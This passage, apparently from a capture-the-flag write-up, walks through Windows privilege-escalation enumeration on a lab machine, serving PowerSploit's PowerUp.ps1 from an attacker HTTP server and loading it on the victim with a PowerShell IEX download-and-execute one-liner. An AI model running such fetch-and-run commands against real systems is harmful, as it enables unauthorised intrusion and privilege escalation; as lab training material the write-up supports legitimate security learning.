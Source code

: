 If I use some basic commands in `powershell`, to get information about the privileges that the user I am logged in with has, I only find that he belongs to the **Remote Management Users** Group. So it might be a good idea to employ the script **[`PowerUp.ps1`](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1){:target="_blank"}**, to find common vectors to escalate privileges, I also edit it to run its module once uploaded, I do this to avoid some steps. But I have problems uploading it to the archive, maybe there is a firewall that is recognizing it as malicious.

> **[PowerSploit](https://github.com/PowerShellMafia/PowerSploit){:target="_blank"}** is a collection of Microsoft PowerShell modules that can be used to aid penetration testers during all phases of an assessment.

> **PowerUp** aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations.

```powershell
ifconfig
whoami /priv
whoami /all

net user tony               # --> Remote Management User
systeminfo                  # --> Access denied!
```

```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Privesc/PowerUp.ps1

nvim PowerUp.ps1
# Add Invoke-AllChecks to the end of the script

python3 -m http.server 80
```

> **Victime Machine**:

```powershell
wget http://10.10.14.15/PowerUp.ps1
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.15/PowerUp.ps1')
```

<br/>
<img src="{{ site.img_path }}/driver_writeup/Driver_12.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/driver_writeup/Driver_13.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/driver_writeup/Driver_14.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/driver_writeup/Driver_15.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
